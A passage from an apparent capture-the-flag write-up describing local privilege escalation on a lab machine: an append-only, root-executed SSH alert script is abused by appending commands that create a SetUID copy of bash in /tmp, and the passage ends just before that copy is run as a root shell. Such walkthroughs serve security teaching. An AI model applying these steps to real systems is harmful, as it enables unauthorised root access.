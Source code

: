 
    svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
    -----a--------e--- /usr/local/sbin/ssh-alert.sh



Despite being the owner for the file, svc_acc is not able to remove
that:



    svc_acc@late:~$ chattr -a /usr/local/sbin/ssh-alert.sh
    chattr: Operation not permitted while setting flags on /usr/local/sbin/ssh-alert.sh



That's because (from the [man
page](https://man7.org/linux/man-pages/man1/chattr.1.md)):

> <div>
>
> <div>
>
>            a      A file with the 'a' attribute set can only be opened in
>                   append mode for writing.  Only the superuser or a process
>                   possessing the CAP_LINUX_IMMUTABLE capability can set or
>                   clear this attribute.
>
> </div>
>
> </div>

Still, appending is good enough for exploiting.

Also, it seems that every minute this file is getting reset to it's
original version, based on the timestamp analysis.

### Exploit

To exploit this, I'll use the following line to create a SetUID Bash
executable:



    svc_acc@late:~$ echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf"
    cp /bin/bash /tmp/.0xdf
    chmod 4755 /tmp/.0xdf
    svc_acc@late:~$ echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh



Now I'll log in over SSH as svc_acc, and there's `.0xdf` owned by root
with the SetUID bit on:



    svc_acc@late:~$ ls -l /tmp/.0xdf
    -rwsr-xr-x 1 root root 1113504 Jul 25 21:12 /tmp/.0xdf



I'll run with `-p` to not drop privileges and get a root shell:
